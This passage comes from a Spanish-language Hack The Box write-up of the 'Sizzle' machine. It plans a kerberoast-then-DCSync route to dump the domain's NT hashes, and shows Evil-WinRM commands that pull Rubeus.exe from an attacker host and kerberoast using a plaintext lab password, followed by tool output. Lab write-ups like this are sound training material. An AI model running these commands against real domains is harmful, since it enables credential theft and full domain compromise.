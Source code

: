 ```null
neo4j console
```

Una vez subidos los datos, se puede ver que el usuario mrlky es kerberoasteable

<img src="/writeups/assets/img/Sizzle-htb/9.png" alt="">

Además, ese usuario tiene capacidad de DCSync sobre el dominio htb.local

<img src="/writeups/assets/img/Sizzle-htb/10.png" alt="">


El vector de ataque sería consiguir el TGS de mrlky, crackearlo, obtener su contraseña, y dumpear todos los hashes NT del dominio

Con Rubeus, aplico el kerberoasting attack, ya que el puerto 88 solo está abierto internamente

```null
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> iwr -uri http://10.10.16.6/Rubeus.exe -o Rubeus.exe
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> .\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : HTB.LOCAL
[*] Searching path 'LDAP://sizzle.HTB.LOCAL/DC=HTB,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


```